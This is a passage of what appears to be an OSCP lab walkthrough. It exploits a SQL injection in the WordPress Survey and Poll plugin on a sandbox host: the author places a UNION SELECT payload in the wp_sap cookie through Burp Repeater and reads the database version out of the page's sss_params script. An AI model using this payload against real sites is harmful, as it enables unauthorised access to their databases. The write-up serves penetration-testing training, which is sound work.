  
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24/9.jpg)
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24/10.jpg)
 
 Then we click on the “Repeater” tab and view the cookie in its raw form.
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24/11.jpg)
 
•  Let’s take the payload from the original exploit, place it into the cookie, and send the request to the server. 
 
•  The payload can be found in Listing 865.
 
 ["1650149780')) OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@@version,11#"]

 
•  According to the exploit, the payload can be inserted into the wp_sap cookie variable value. 

• The value of the cookie variable starts after the “=” sign and must end with a semicolon.
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24/12.jpg)
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24/13.jpg)
 
• The exploit code mentions that the result of the SQL injection will be placed in the sss_params variable within a “script” tag.

• Searching for the variable in Burp should take us to the location of the output from the SQL injection.
 
•  We can also set Burp to “auto-scroll” to this location in the future to make exploitation easier so we don’t have to scroll to find the output each time.
 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/24/14.jpg)
 
 In this output, we can see the version of the database in use. This shows us that the SQL injection worked!
 
```js
 <script type='text/javascript'>
/* <![CDATA[ */
var sss_params = {"survey_options":"{\"options\":\"[\\\"bottom\\\",\\\"easeInOutBack\\
\",\\\"\\\",\\\"-webkit-linear-gradient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 2
04) 70%);-moz-linear-gradient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 204) 70%);-
ms-linear-gradient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 204) 70%);-o-linear-gr
adient(top , rgb(255, 255, 255) 35% , rgb(204, 204, 204) 70%);linear-gradient(top , rg
b(255, 255, 255) 35% , rgb(204, 204, 204) 70%);\\\",\\\"rgb(0, 0, 0)\\\",\\\"rgb(93, 9
3, 93)\\\",\\\"1\\\",\\\"0\\\",\\\"12\\\",\\\"9\\\",\\\"8\\\",500,\\\"Thank you for yo
ur feedback!\\\",\\\"0\\\",\\\"0\\\",\\\"0\\\"]\",\"plugin_url\":\"http:\\\/\\\/sandbo
x.local\\\/wp-content\\\/plugins\\\/wp-survey-and-poll\",\"admin_url\":\"http:\\\/\\\/
sandbox.local\\\/wp-admin\\\/admin-ajax.php\",\"survey_id\":\"1550849657\",\"style\":\
"modal\",\"expired\":\"false\",\"debug\":\"true\",\"questions\":[[\"Are you enjoying t
he new site?\",\"Yes\",\"No\"],[\"10.3.20-MariaDB\"]]}"};
/* ]]> */
</script>
```
 